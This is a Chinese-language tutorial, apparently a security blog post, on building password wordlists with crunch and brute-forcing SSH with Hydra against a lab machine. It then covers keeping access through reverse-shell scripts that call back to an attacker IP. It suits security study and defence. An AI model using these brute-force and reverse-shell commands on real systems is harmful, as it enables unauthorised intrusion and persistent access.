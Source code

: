 # 弱密钥以及常用爆破- 字典生成和SSH爆破

### crunch字典生成

`crunch` 的基本语法如下：

```sh
crunch [最小长度] [最大长度] [字符集] [选项]
```

**常见选项**

- **`-o` 或 `--output`**: 指定输出文件。
- **`-f` 或 `--charset-file`**: 指定字符集文件。
- **`-t` 或 `--pattern`**: 使用模式生成字典。
- **`-s` 或 `--start`**: 指定起始字符串。
- **`-e` 或 `--end`**: 指定结束字符串。
- **`-z` 或 `--compress`**: 压缩输出文件（支持 gzip、bzip2、lzma）。

```bash
#生成所有长度为 4 的数字组合
crunch 4 4 0123456789
#生成所有长度为 6 的大写字母和数字组合
crunch 6 6 ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789
#生成所有长度为 8 的小写字母和数字组合，并输出到文件
crunch 8 8 abcdefghijklmnopqrstuvwxyz0123456789 -o output.txt

#使用模式生成字典
crunch 8 8 -t @@@@,@@,@@

#指定起始和结束字符串
crunch 4 4 0123456789 -s 1234 -e 567
```

> 说明一下这个模式生成：crunch 使用 -t 或 --pattern 参数来指定模式。
>
> @: 小写字母 (abcdefghijklmnopqrstuvwxyz)
>
> ,: 数字 (0123456789)
>
> %: 大写字母 (ABCDEFGHIJKLMNOPQRSTUVWXYZ)
>
> ^: 符号 (!@#$%^&*()-_=+[]{}|;:,.<>?/)

![77a59800a38b5ab3a6ff140ad5f41bb](https://gitee.com/bx33661/image/raw/master/path/77a59800a38b5ab3a6ff140ad5f41bb.png)

#### 

## Hydra实现爆破

基本用法：

```shell
hydra -l <username> -P <password_file> <target> <protocol>
```

基本参数：

> -l 指定用户名
> -p 指定密码
> -L 指定用户字典
> -P 指定密码字典
> -e
> n null,表示尝试空密码
> s same,把用户名本身当做密码进行尝试
> r反向，把用户名倒叙，当做密码进行尝试
> -vV 显示执行细节
> -o 保存执行结果
> -s 指定非默认端口
> -C 指定所有格式为“user：password”的字典文件
> -M 指定破解的目标文件，如果不是默认端口，后面跟上“：port”

### ssh爆破及基本思路

```bash
# -L -P 是跟着文件---脚本会自动去找相应目录下的文件
# 如果只有一个的话，使用-l -p 小写
hydra -L users.txt -P password.txt ssh://ip

```

比如说我这里做一个示例

> 大部分会做一个这个 SSH 连接的尝试次数的限制
>
> 可以使用这个-t参数来限制请求次数

![image-20241129165407277](https://gitee.com/bx33661/image/raw/master/path/image-20241129165407277.png)

比如说我们这里成功地爆出来密码的话

- 通过终端连接

![image-20241129171151926](https://gitee.com/bx33661/image/raw/master/path/image-20241129171151926.png)

一般是有一个验证，输入yes进入指纹确定页面

![image-20241129171254586](https://gitee.com/bx33661/image/raw/master/path/image-20241129171254586.png)

这样就进入这个shell界面了

- 通过shell软件连接

![image-20241129171359022](https://gitee.com/bx33661/image/raw/master/path/image-20241129171359022.png)



然后就是我们可以做一个这个隐藏任务

> 就是为了维持权限，
>
> 当靶机修改密码或关机后，我们使用爆破出来的密码就无济于事了

```bash
cd /tmp
vim sbx.sh
```

--->

```(空)
    #!/bin/bash
    nc your_ip 7777 -c /bin/bash
```



```(空)
    #!/bin/bash
    bash -i >& /dev/tcp/your_ip/7777 0>&1
```

保存之后,这个文件是没有这个执行权限的

```(空)
chmod +x sbx.sh
./sbx.sh
```

在主机开启监听就行：

![image-20241129173008213](https://gitee.com/bx33661/image/raw/master/path/image-20241129173008213.png)



我们如果是被攻击方的话通过：

```bash
netstat -antpl
```

是可以检查到相应外部连接和利用的

![image-20241129173715019](https://gitee.com/bx33661/image/raw/master/path/image-20241129173715019.png)



- [使用hydra进行SSH爆破_hydra ssh-CSDN博客](https://blog.csdn.net/qq_53218512/article/details/131013636)